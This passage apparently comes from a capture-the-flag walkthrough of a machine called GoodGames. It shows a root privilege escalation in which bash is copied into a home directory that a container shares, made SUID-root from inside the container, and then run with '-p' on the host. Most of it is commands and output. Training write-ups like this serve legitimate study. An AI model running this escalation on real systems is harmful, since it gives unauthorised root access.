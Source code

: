 ssh augustus@IP$
​
I’ll copy /bin/bash
 into augustus’ home directory on the host. It’s important to use bash
 from the host (I’ll cover why in Beyond Root).
augustus@GoodGames:~$ cp /bin/bash .
​
Then in the container, I’ll change the owner to root, and set the permissions to be SUID:
root@3a453ab39d3d:/home/augustus# ls -l bash 
-rwxr-xr-x 1 1000 1000 1234376 Feb 22 15:25 bash
root@3a453ab39d3d:/home/augustus# chown root:root bash 
root@3a453ab39d3d:/home/augustus# chmod 4777 bash 
root@3a453ab39d3d:/home/augustus# ls -l bash
-rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash
​
Back on GoodGames, the changes are reflected:
augustus@GoodGames:~$ ls -l bash 
-rwsrwxrwx 1 root root 1234376 Feb 22 15:25 bash
​
Running it (with -p
 so that privileges aren’t dropped) returns a root shell:
augustus@GoodGames:~$ ./bash -p
bash-5.1#

